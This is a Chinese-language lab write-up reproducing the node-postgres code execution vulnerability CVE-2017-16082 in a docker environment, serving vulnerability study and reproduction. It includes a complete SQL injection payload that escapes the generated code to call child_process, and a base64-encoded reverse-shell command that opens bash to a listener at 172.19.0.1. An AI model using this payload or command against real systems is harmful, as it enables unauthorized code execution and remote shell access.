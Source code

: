 # node-postgres 代码执行漏洞（CVE-2017-16082）

## 漏洞原理

node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

参考链接：

 - https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
 - https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
 - https://zhuanlan.zhihu.com/p/28575189

## 漏洞复现

编译及运行环境：

```
docker compose build
docker compose up -d
```

成功运行后，访问`http://your-ip:3000/?id=1`即可查看到id为1的用户信息，用sqlmap即可发现此处存在注入点，且数据库为postgres：

![](img/1.png)

那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

将上述payload编码后发送：

![](img/2.png)

成功执行命令，如反弹shell：

![](img/3.png)

因为复现过程中坑比较多，payload生成与测试过程中如果出现错误，还请多多阅读[我的这篇文章](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)，从原理上找到问题所在。
